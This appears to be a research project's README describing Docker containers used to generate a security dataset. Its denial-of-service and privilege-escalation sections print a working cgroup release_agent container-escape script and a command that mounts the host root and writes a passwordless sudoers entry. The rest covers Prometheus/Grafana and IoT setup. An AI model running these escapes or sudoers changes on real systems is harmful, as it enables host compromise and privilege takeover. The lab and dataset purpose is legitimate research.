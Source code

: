 # Containers
There are five containers used to create the dataset.

* denial of service container
* privilege escalation container
* prometheus database container
* grafana web server container
* internet of things container

The denial of service and privilege escalation were derived from the following.

https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/

The prometheus and grafana are from awesome-compose.  Finally, the internet of things container was developed to communicate with remote endpoints, however, due to the size and specialized configuration, it is not provided.

The following sections describe each of the containers.


## Denial of Service Container

The denial of service container launches a container escape and associated denial of service attack.

* You can load the pre-confgured container as follows.

```bash
docker load < umbrella_ubuntu_dos.tar.gz
```

* You can create and configure new container.

To create and configure a new container follow the below steps.

Get the latest ubuntu image

```bash
docker pull ubuntu
```

Using original ubuntu, install nano, add escape.sh and stress.txt (see below), then commit to save the container configuration.

```bash
docker run --privileged --name=ESCAPE_DOS --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
```

From within container

```bash
apt-get update
apt-get install nano
nano escape.sh
...
(save)
chmod +x escape.sh

nano stress.txt
...
(save)
```

In another host terminal, save currently running ubuntu container to ubuntu_escape image.

```bash
docker commit ESCAPE_DOS ubuntu_escape
```

You can now exit the ubuntu container.

From a host terminal, start the ubuntu_escape container with reduced security.

```bash
docker run --name=ESCAPE_DOS --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu_escape bash
```

Finally, from other host terminal, execute escape.sh in ubuntu_escape.  This launches the attack (you can use top to see the increased CPU usage).  Note that [scenarioDos.py](../src/scenarioDos.py) uses this to launch the attack.
```bash
docker exec -it ESCAPE_DOS /escape.sh
```

### Escape

The contents of the escape.sh file should be as follows.

```bash
#!/bin/sh
mkdir /tmp/cgrp
mount -t cgroup -o memory cgroup_memory /tmp/cgrp
mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
cat stress.txt > /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

### Attack

The contents of the stress.txt file should be as follows.

```bash
#!/bin/bash
stress() {
  (
    pids=""
    cpus=${1:-1}
    seconds=${2:-60}
    echo loading $cpus CPUs for $seconds seconds
    trap 'for p in $pids; do kill $p; done' 0
    for ((i=0;i<cpus;i++)); do while : ; do : ; done & pids="$pids $!"; done
    sleep $seconds
  )
}
stress 2 20
```

## Privilege Escalation Container

The privilege escalation container launches a container escape and associated privilege escalation attack.

* You can load the pre-confgured container as follows.

```bash
docker load < umbrella_alpine_privesc.tar.gz
```

* You can create and configure a new container.

To create and configure a new container follow the below steps.

Create container from alpine image.

### Escape

The privilege escape is really accomplished by the mounting of a volume during container building.

```
FROM alpine
ENV WORKDIR /privesc
RUN mkdir -p $WORKDIR
VOLUME $WORKDIR
WORKDIR $WORKDIR
```

Execute the following command to build container.

```bash
docker build -t priv-container .
```

You can execute the following command to run the container.  Note that this is done in the [scenarioPrivesc.py](../src/scenarioPrivesc.py).

```bash
docker run --name ESCAPE_PRIVESC -v /:/privesc -it priv-container /bin/sh
```

### Attack

The attack assumes the user *testuser* aleady exists.  The *testuser* should be in the sudo'ers list but requires a password (the attack changes this to password-less).  From within the container, the following is executed.

```bash
echo "testuser ALL=(ALL) NOPASSWD: ALL" > /privesc/etc/sudoers.d/010_testuser-nopasswd
```


## Prometheus-Grafana Container

The prometheus-grafana container is take from awesome-compose and can be started and stopped with the following.  Note that this is done in the [scenarioGrafana.py](../src/scenarioGrafana.py).

```bash
sudo docker-compose -f prometheus-grafana/docker-compose.yml up --no-start
sudo docker-compose -f prometheus-grafana/docker-compose.yml start
```

```bash
sudo docker-compose -f prometheus-grafana/docker-compose.yml stop
sudo docker-compose -f prometheus-grafana/docker-compose.yml rm -f
```

## Internet of Things Container

The IoT container used for the datasets is described here.  We do not provide the container because it exceeded github's maximum file size.

The IoT container is based on the ubuntu image.  It was then configured to setup the tunslip interface to communicate with an IEEE 802.15.4 wireless dongle over /tty/ACM0.  The dongle is programmed with the contiki-ng rpl-border-router example using TSCH.

The remote endpoints are the Nordic nRF-52480 development boards programmed with the contiki-ng rpl-udp example using TSCH.  The endpoints take a temperature sensor reading every five seconds and send to the UDP server (port 8765) running in the Docker IoT container.

This container setup works for both the Umbrella edge device (built-in nRF dongle) and the Linux Raspian VM (USB attached nRF dongle).
